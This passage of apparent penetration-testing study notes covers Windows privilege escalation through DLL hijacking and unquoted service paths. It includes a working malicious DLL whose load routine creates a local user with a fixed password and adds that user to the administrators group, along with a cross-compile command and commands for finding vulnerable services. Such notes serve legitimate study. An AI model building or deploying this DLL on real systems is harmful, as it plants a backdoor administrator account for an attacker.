 C++ DLL example code from Microsoft
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

add --shared to specify that we want to build a DLL.
Cross-Compile the C++ Code to a 64-bit DLL
```bash
x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```

## 2.3. Unquoted Service Paths

We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Example of how Windows will try to locate the correct path of an unquoted service
1. C:\Program.exe
2. C:\Program Files\My.exe
3. C:\Program Files\My Program\My.exe
4. C:\Program Files\My Program\My service\service.exe


List of services with binary path
```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

:::Note
check if we can start and stop the identified service as steve with `Start-Service` and `Stop-Service`.
check access rights `icacls "C:\"`
:::
